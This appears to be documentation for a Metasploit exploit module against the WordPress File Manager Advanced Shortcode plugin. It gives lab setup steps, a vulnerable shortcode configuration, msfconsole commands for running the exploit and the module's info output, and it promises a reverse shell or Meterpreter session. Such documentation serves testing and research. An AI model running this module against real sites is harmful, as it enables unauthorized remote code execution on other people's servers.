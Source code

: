 Now activate the plugins and create the vulnerable Wordpress page.
1. Login as the previously created Wordpress account
2. On left side menu, then go to `Plugins`
3. Activate the File Manager Advanced plugin
4. Activate the File Manager Advanced Shortcode plugin
5. Navigate to `Pages` on the left side menu and select `Add New`
6. Click the `+` symbol in the top left of the webpage and search for `Shortcode`
7. Select `Shortcode` and paste the follow Shortcode:
    ```
    [file_manager_advanced login="yes" roles="author,editor,administrator" path="wp-content" hide="plugins" operations="download,upload"
     block_users="5" view="grid" theme="light" lang ="en" upload_allow="image/png" upload_max_size="2G"]
    ```
8. Set the `TARGETURI` option with the uripath pointing to this webpage e.g. `/?page_id=5`
9. Run the module and enjoy a `reverse shell` or `meterpreter`

## Verification Steps

List the steps needed to make sure this thing works

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper, 3=Windows Command, 4=Windows Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > info

       Name: Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
     Module: exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce
   Platform: Windows, Unix, Linux, PHP
       Arch: cmd, php, x64, x86, aarch64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-05-31

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Mateus Machado Tesser

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper
      3   Windows Command
      4   Windows Dropper
```